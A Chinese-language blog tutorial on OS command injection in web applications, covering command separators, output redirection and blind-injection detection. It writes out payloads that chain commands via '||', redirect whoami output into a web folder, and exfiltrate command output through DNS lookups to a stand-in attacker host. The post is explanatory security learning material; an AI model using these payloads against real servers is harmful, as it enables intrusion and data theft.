


简介
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。
该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。
我的理解是：在完成 web 网页的一些功能时，需要执行系统命令。而攻击者通过控制输入，使服务器对恶意输入的系统命令进行执行，从而达到窃取一些信息甚至更严重的行为的目的。
注入方式
利用下列字符充当命令分隔符，将多个命令拼接在一起
&
&&
|||
; 分号
` 反引号
输入输出重定向符号
< << :> &> 2&> 2<>>& >&2
注入类型
有回显的命令注入
那我们可以直接输入注入命令，观察注入结果即可
无回显的命令注入
无回显就导致我们没有办法判断我们所注入的命令是否被完成，一下的几种方式能够帮助我们判断是否命令被执行
-
利用时间延迟
payload
1
注入点+||+ping -c 10 127.0.0.1+||
利用符号 || 来分隔命令
-
利用输出重定向
payload
1
2注入点+||+whoami > /var/www/static/whoami.txt+||
filename=whoami.txt //在网页请求文件内容的 URL 中修改参数既然信息无法回显，那我们就将输出的信息进行重定向，将它输入到 > 后的目标文件中去，然后利用浏览器去获取你所保存的文件。因此我们也可以看出来我们文件重定向的位置最好是在有为网页提供内容的文件夹下，这样我们可以直接通过修改该网页的 URL 来获取我们的文件。
在获取图片的文件中请求我们所重定向的文件

-
外带 OASI 技术(依靠 DNS 查找响应)
可以仅仅只依靠是否发生了 DNS 查找，也可以是包含了命令结果的 DNS 查找。
payload
1
2注入点+||+nslookup+kgji2ohoyw.web-attacker.com+|| //不带信息的 DNS 触发
注入点+||+nslookup+`whoami`.kgji2ohoyw.web-attacker.com+|| //带信息的 DNS 触发
本文作者：GhDemi
本文链接： https://ghdemi.github.io/2022/04/20/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5/
文章默认使用 CC BY-NC-SA 4.0 协议进行许可，使用时请注意遵守协议。